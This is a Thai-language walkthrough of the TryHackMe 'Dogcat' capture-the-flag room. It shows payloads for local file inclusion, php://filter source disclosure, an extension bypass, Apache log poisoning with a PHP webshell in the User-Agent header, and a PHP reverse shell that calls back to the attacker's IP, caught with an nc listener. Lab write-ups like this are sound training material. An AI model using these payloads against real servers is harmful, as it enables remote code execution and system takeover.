


## ✨ บทนำ
ห้อง Dogcat เป็นห้อง CTF ที่เน้นการโจมตีผ่านช่องโหว่ Local File Inclusion (LFI) และการยกระดับสิทธิ์ในระบบ โดยมีเป้าหมายหลักคือการเจาะระบบและอ่านไฟล์ flag ที่ซ่อนอยู่

## 🔍 เป้าหมายของโจทย์
- **เจาะระบบเว็บเซิร์ฟเวอร์**
  - ใช้ช่องโหว่ Local File Inclusion (LFI) เพื่อเข้าถึงระบบ
  - ยกระดับสิทธิ์จากผู้ใช้เว็บ (`www-data`) เป็นผู้ดูแลระบบ (`root`)
- **ค้นหาและอ่านไฟล์ Flag ทั้ง 4 ใบ**

# 🧠 TryHackMe - Dogcat

> 🟡 หมวด: Web Security / Privilege Escalation  
> 🧩 ความยาก: Medium  
> 🕵️‍♂️ โหมด: Capture The Flag  
> 🔗 URL: [Dogcat](https://tryhackme.com/room/dogcat)
> 👨‍💻 ผู้ทำ: Thanyakorn

---

## 🛰️ 1. ข้อมูลเบื้องต้น (Target Info)
- IP เครื่องเป้าหมาย: `10.10.85.123`
- Web servers: Apache Web Server

## 🚀 ขั้นตอนการโจมมตี 

### 📌 เริ่มต้นเจาะระบบด้วย LFI (Local File Inclusion)

1. อย่างแรกเลย เข้าไปที่หน้าเว็บด้วย IP ที่โจทย์ให้แล้วเราจะเจอกับหน้าเว็บหลักที่ดูเหมือนเป็นเว็บเกี่ยวกับหมาแมว (Dog / Cat)


2. จากที่โจทย์บอกว่าเว็บนี้เขียนด้วย PHP และเราสงสัยว่าอาจจะมี LFI เราเลยลองยิง Payload เพื่อทดสอบ LFI แบบ Directory Traversal ด้วย URL นี้:

```bash
http://10.10.85.123/?view=dog/../../../../etc/passwd
```


- ใช้ ../../../../ เพื่อพยายามออกจากโฟลเดอร์ /dog/ แล้วเข้าไปอ่านไฟล์ /etc/passwd
- แต่ปรากฏว่าเจอ Error ขึ้นมาว่า:
> failed to open stream: No such file or directory in /var/www/html/index.php

3. จาก Error นี้ทำให้เรารู้ว่า Web กำลังเรียกใช้ไฟล์ `index.php` และมีการ include ไฟล์ที่รับมาจาก user
ซึ่งแปลว่าแอปนี้น่าจะใช้พวก `include()` หรือ `require()` แล้วเอาค่าจากพารามิเตอร์ `view` ไปต่อ path

4. ทีนี้เราสงสัยว่าทำไมมันถึงเปิดไฟล์ไม่ได้ ทั้งที่ `/etc/passwd` ก็น่าจะมี
→ อาจจะเพราะ Web เติม `.php` ต่อท้ายให้อัตโนมัติ เช่น `/etc/passwd.php` (ซึ่งไม่มีจริงเลย Error)

5. เพื่อพิสูจน์ว่า Web นี้กำลังทำงานยังไง และเข้าใจ Logic ด้านหลัง
เราจึงต้องพยายาม อ่าน source code ของ index.php

### 🕵️‍♂️ ใช้เทคนิค php://filter เพื่อดู Source Code

6. ถ้าเราจะอ่านไฟล์ PHP ตรง ๆ มันจะถูก execute ทันที (Run ไม่ได้อ่าน)
ดังนั้นต้องใช้ `php://filter` ที่เอาไว้ "กรองไฟล์ก่อนแสดงผล" และแปลงให้อยู่ในรูปแบบ Base64 แทน

7. ยิง Payload นี้ไป:

```bash
http://10.10.85.123/?view=php://filter/convert.base64-encode/resource=dog/../index
```

- `php://filter`: stream wrapper ของ PHP
- `convert.base64-encode`: ให้ผลลัพธ์เป็น Base64
- `dog/../index`: ย้อนกลับมาจาก `/dog/` แล้วเข้าไปยัง `index` (จริง ๆ ก็คือ index.php)


8. เมื่อยิง URL นี้แล้ว เราจะได้เนื้อหาแบบ Base64 กลับมา

   → ให้ copy ข้อความที่ได้แล้วเอาไปวางในเว็บ [CyberChef](https://gchq.github.io/CyberChef/)

9. ตั้งค่า CyberChef ให้ใช้ Recipe เป็น `From Base64` ก็จะได้ Source code ของ `index.php` ออกมา


### 🔍 วิเคราะห์ index.php ที่ถูกแปลงจาก Base64

10. หลังจากยิง Payload `php://filter` แล้ว เราจะได้ข้อความยาว ๆ ที่ถูกเข้ารหัส Base64 กลับมา

11. เมื่อดูจากโค้ดที่ได้มา จะเห็นว่า:
    - มีการใช้ตัวแปร `$ext` เพื่อเก็บ "นามสกุลของไฟล์"
    - ตัวเว็บจะ เติม `.php` เข้าไปให้โดยอัตโนมัติ เสมอ
    - ดูเหมือนว่า View ที่เราส่งเข้าไป (เช่น dog หรือ cat) จะเป็น input หลักที่เว็บนำไปใช้ในการ include ไฟล์
      
   ตัวอย่างเช่น:

```bash
include($_GET["view"] . $ext);
```
→ แปลว่า ถ้าเราส่ง `view=dog/../../../../etc/passwd` เว็บจะพยายาม include:
`dog/../../../../etc/passwd.php` → ซึ่งไม่มีจริง ก็เลย Error

### 🛠️ Bypass ส่วนขยาย .php ด้วยพารามิเตอร์ ext
  
12. จาก Source Code ที่ถอด Base64 มา เราเห็นว่าเว็บจะเติม `.php` ต่อท้ายไฟล์ทุกครั้ง ผ่านตัวแปร `$ext`
→ ทำให้ไม่สามารถอ่านไฟล์อย่าง `/etc/passwd` หรือ `index` ตรง ๆ ได้ เพราะมันจะกลายเป็น `index.php` เสมอ

13. ใช้เทคนิค Bypass .php extension ด้วย ext=
- จาก source code ที่อ่านได้ก่อนหน้า เราทราบว่าเว็บใช้ `$ext = '.php'` เพื่อเติมนามสกุลไฟล์
- เราสามารถ "ลบ" การเติมนามสกุล `.php` นี้โดยการระบุตัวแปร `ext` แต่ไม่ใส่ค่าเข้าไป

🔧 Payload ที่ใช้:

```bash
http://10.10.85.123/?view=dog/../../../../etc/passwd&ext=
```


📌 สิ่งที่เกิดขึ้นคือ:

 - ตอนนี้ PHP จะพยายาม include ไฟล์จาก path ที่เราระบุ โดย ไม่มีการเติม `.php` ต่อท้ายอีกต่อไป
 - นั่นแสดงว่า การ Bypass .php สำเร็จ และเราสามารถใช้ LFI ได้แบบเต็มรูปแบบ

📍หลังจากทดสอบว่าเราสามารถอ่านไฟล์ได้แล้ว ขั้นตอนต่อไปคือการเปิด Burp Suite เพื่อเริ่มวาง Payload สำหรับ Log Poisoning หรือการฝัง PHP Code ผ่าน Access Log

### ☣️ เริ่มกระบวนการ Log Poisoning

14. เป้าหมายของเราคือการ ฝังโค้ด PHP ลงใน access log แล้วใช้ช่องโหว่ LFI ที่มีอยู่เพื่อ เรียกใช้งานโค้ดนั้นจากไฟล์ log

15. สิ่งที่ต้องทำคือ:

🔧 15.1 เปิด Proxy และเตรียม Burp Suite
- เปิด Burp Suite ขึ้นมา
- เปิด Browser ที่ตั้งค่าให้ใช้ Proxy ของ Burp (เช่น Firefox)
- เข้าเว็บเป้าหมาย (`http://10.10.85.123/`) เพื่อให้ Burp ดัก Request ได้


📩 15.2 ส่ง Request ไปยัง Repeater

- หลังจากโหลดหน้าเว็บแล้ว กลับมาที่ Burp → ไปที่แท็บ **HTTP history**
- คลิกขวาที่ Request ที่เราต้องการ → เลือก **Send to Repeater**

### 📂 เข้าถึงไฟล์ Log เพื่อเตรียมใช้ช่องโหว่ LFI ร่วมกับ Log Poisoning
🧪 16 เปลี่ยน path เป็น access log แล้วส่ง Request
- ในแท็บ Repeater ของ Burp Suite:
  - เปลี่ยน path ที่ parameter `view=` ให้ชี้ไปยัง log file:
    ```bash
    view=dog/../../../../../../var/log/apache2/access.log
    ```
   - จากนั้นกด Send เพื่อลองเรียกดูเนื้อหาไฟล์


✅ 16.1 ตรวจสอบผลลัพธ์
หาก Response แสดงเนื้อหาของ log เช่น บรรทัดที่เริ่มต้นด้วย IP, Request Line, หรือ User-Agent แสดงว่า สามารถเข้าถึง log ได้สำเร็จ

ℹ️ หมายเหตุ:
- log ที่ใช้คือ: `/var/log/apache2/access.log` ซึ่งเป็นที่เก็บ access log ของ Apache
- ผมใช้ Wappalyzer (Browser Extension) เพื่อตรวจสอบว่า Web Server คือ Apache และใช้ PHP

🧾 วิเคราะห์ Access Logs และเตรียมใช้ User-Agent Injection
17. ตรวจสอบบันทึกการเข้าถึง (access.log)
- หลังจากเราใช้เทคนิค LFI เพื่อเข้าถึงไฟล์ `/var/log/apache2/access.log` ได้แล้ว
- ให้เราสังเกตบรรทัดล่างสุดของ log ซึ่งเป็นคำขอล่าสุดที่เราส่งเข้าไปก่อนหน้า



- ตรงนี้เองที่สำคัญ: เรามองเห็น User-Agent ที่เราส่งไป

🧠 วิเคราะห์:
- บันทึก access log นี้ช่วยให้เห็นว่า server บันทึกคำขอทุกคำ รวมถึง header ต่าง ๆ เช่น `User-Agent`
- และเพราะว่า log นี้สามารถอ่านได้ผ่านช่องโหว่ LFI นั่นหมายความว่า...
  
✅ หากเราส่ง PHP code ผ่าน User-Agent แล้ว server บันทึกมันไว้ → เราสามารถรวม log file นี้เพื่อรัน PHP code ได้!

18. บันทึก IP ของเครื่อง Attacker
- จากบรรทัดของ log เราจะเห็น IP ของเครื่องที่ส่ง request เข้ามา



- ในกรณีนี้คือ:

```bash
10.9.0.160
```

- ให้จด IP นี้ไว้ เพราะเราจะใช้มันในการสร้าง reverse shell กลับมาหาเครื่องเราในขั้นตอนต่อไป

### 🧪 วาง PHP Payload ผ่าน User-Agent (Log Poisoning)
> หลังจากที่เรายืนยันแล้วว่าไฟล์ `/var/log/apache2/access.log` สามารถถูกอ่านผ่าน LFI ได้ และคำร้องขอ (request) ของเราถูกบันทึกทั้งบรรทัด—including `User-Agent`—เราจะใช้ Log Poisoning เพื่อ inject โค้ด PHP ลงไปใน log file

19. 🛠 Payload ขั้นตอนนี้
- ในแท็บ Repeater:
  - เราจะต้องลบตัวแทนออกไป (ตรง User-Agent)


20. ต่อมาเราจะแก้ไข User-Agent ให้เป็น:

```bash
<?php system($_GET['cmd']); ?>
```


📌 อธิบายโค้ด:
 - `<?php ... ?>` คือโค้ด PHP
 - `system($_GET['cmd']);` จะรันคำสั่ง shell ที่ถูกส่งมาผ่าน query parameter ที่ชื่อ cmd

### 🧪 เรียกใช้ Webshell ผ่าน LFI เพื่อทดสอบคำสั่ง whoami
> หลังจากที่เราฝังโค้ด PHP (<?php system($_GET['cmd']); ?>) ลงใน log แล้วเรียบร้อย
เป้าหมายถัดไปคือการ ทดสอบว่าเราสามารถรันคำสั่งระบบได้จริงหรือไม่

✅ วิธีเรียกใช้ Webshell:

21. วาง URL ดังนี้:

```bash
http://10.10.85.123/?view=/var/log/apache2/access.log&ext=&cmd=whoami
```

อธิบายพารามิเตอร์:
 - `view=` → ใช้ LFI เพื่อโหลดไฟล์ log ที่เราฝังโค้ดไว้
 - `ext=` → ส่งค่าว่าง เพื่อหลีกเลี่ยงไม่ให้ระบบเติม .php เข้าไปอัตโนมัติ
 - `cmd=whoami` → สั่งให้รันคำสั่ง whoami เพื่อดูว่าเราทำงานอยู่ในสิทธิ์ของผู้ใช้ใด

22. หลังจากที่วาง URL ไปแล้วจากนั้นทำการ Send สังเกตุจาก Response จะเห็นว่าเราไม่เจออะไรเลย เราจำเป็นต้องกด Send อีกที ผลลัพธ์จึงจะออกมา


23. ทำไมต้องกด Send สองครั้ง?
> หลังจากที่เรา inject โค้ด PHP ลงใน access.log และพยายามโหลดไฟล์นั้นผ่าน LFI เพื่อรันคำสั่ง เช่น whoami แล้ว
ครั้งแรกที่เรากด Send ใน Burp Suite (หรือโหลด URL นั้นผ่านเบราว์เซอร์)
อาจ ยังไม่เห็นผลลัพธ์ของคำสั่ง เพราะ Log file ยังไม่ถูกอัปเดตแบบ real-time ในช่วงวินาทีนั้น

เมื่อทำแบบนี้ เราจะเห็น output เป็น:

```bash
www-data
```


แสดงว่า Webshell ของเราทำงานเรียบร้อยแล้ว และสามารถใช้คำสั่งต่อได้ เช่น ls, id, uname -a เป็นต้น

### 🐚 เตรียม Reverse Shell ด้วย PHP
> หลังจากที่เราทดสอบแล้วว่าคำสั่ง `whoami` ทำงานได้ผ่าน Webshell ที่ฝังใน log (access.log)
ขั้นตอนต่อไปคือการยิง Reverse Shell เพื่อเข้าควบคุมเครื่องเป้าหมายจากระยะไกล

🔧 เครื่องมือที่ใช้:
เราจะใช้ Pentestmonkey ซึ่งเป็นเว็บไซต์รวม Cheat Sheet สำหรับ Web Shell และ Reverse Shell
  [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

🧾 โค้ด Reverse Shell (ภาษา PHP):

24. ทำการ copy Payload ดังกล่าว:

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


- `fsockopen()` เปิดการเชื่อมต่อ TCP ไปยัง IP/Port ที่เราระบุ
- `exec()` จะเรียกใช้งาน shell `(/bin/sh -i)` แบบ interactive
- เมื่อฝังโค้ดนี้ลงใน Log และโหลดผ่าน LFI → เซิร์ฟเวอร์จะเชื่อมกลับมาที่เครื่องเรา

⚠️ หมายเหตุ:
- ก่อน copy โค้ดจากเว็บให้ เปลี่ยน IP (`10.0.0.1`) และ Port (`1234`) ให้เป็นของเครื่องเราจริงๆ

### 💉 แปลง Payload ให้พร้อมฝังลง Log
> หลังจากที่ได้คำสั่ง reverse shell แล้ว ขั้นตอนต่อไปคือการ encode payload เพื่อให้สามารถฝังลงใน log file ได้อย่างปลอดภัยและไม่ผิด syntax

25. ใช้ CyberChef:
    
เราจะใช้ CyberChef ซึ่งเป็นเครื่องมือออนไลน์ที่ช่วยในการเข้ารหัส/ถอดรหัส วิเคราะห์ข้อมูล ฯลฯ

✅ ขั้นตอน:
1. นำ payload ที่ได้มา:

```bash
php -r '$sock=fsockopen("10.9.0.160",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

2. วางลงใน CyberChef
3. ทางซ้ายให้ค้นหาและลากสูตร “URL Encode” เข้ามาใช้
4. CyberChef จะแปลง payload ให้กลายเป็นรูปแบบ URL-safe


5. คัดลอกผลลัพธ์ไปใช้ต่อในการยิงผ่าน Burp Suite

### 🐚 ฝัง Payload และรอรับ Reverse Shell
> หลังจากที่เราได้ Payload ที่ถูก URL-encode แล้ว ขั้นตอนต่อไปคือฝัง payload นั้นลงใน log และรอ reverse shell เชื่อมกลับมา

26. ดำเนินการใน Burp Suite:
    
1. เปิด Terminal และรันคำสั่งเพื่อรอรับการเชื่อมต่อ:
2. เพิ่มพารามิเตอร์ `cmd=<payload>` ต่อท้าย URL


27. เตรียม Listener บนเครื่องเรา:
เปิด Terminal และรันคำสั่งเพื่อรอรับการเชื่อมต่อ:

```bash
nc -lvnp 1234
```

🚀 Trigger การเชื่อมต่อ:
กลับมาที่ Burp Suite และกด Send

📥 ถ้า payload ทำงานสำเร็จ — ใน Terminal เราจะเห็นมีการเชื่อมต่อเข้ามา!


